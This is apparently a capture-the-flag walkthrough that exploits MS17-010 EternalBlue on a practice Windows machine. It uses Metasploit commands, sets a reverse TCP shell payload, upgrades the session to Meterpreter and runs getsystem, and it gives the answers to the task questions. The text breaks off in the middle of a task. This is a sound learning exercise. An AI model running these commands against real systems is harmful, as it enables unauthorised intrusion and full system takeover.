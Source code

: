 - Start Metasploit: 
  ```
  msfconsole
  ```
- Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
  ```
  search ms17_010
  ```
  > exploit/windows/smb/ms17_010_eternalblue
- Show options and set the one required value. What is the name of this value? (All caps for submission)
  ```
  show options
  set rhosts <target ip>
  ```
  > RHOSTS
- Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

  `set payload windows/x64/shell/reverse_tcp`

  With that done, run the exploit!
  ```
  run
  ```
- Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 
  ```
  background
  ```
### Task 3
- If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
  ```
  Google how to convert a shell to meterpreter shell in metasploit. First result gives the answer.
  ```
  > post/multi/manage/shell_to_meterpreter
- Select this (use MODULE_PATH). Show options, what option are we required to change?
  ```
  use post/multi/manage/shell_to_meterpreter
  show options
  ```
  > session
- Set the required option, you may need to list all of the sessions to find your target here.
  ```
  set session <num>
  ```
- Run! If this doesn't work, try completing the exploit from the previous task once more.
  ```
  run
  ```
- Once the meterpreter shell conversion completes, select that session for use.
  ```
  sessions <num>
  ```
- Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.
  ```
  getsystem
  ```
- List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
  ```
  ```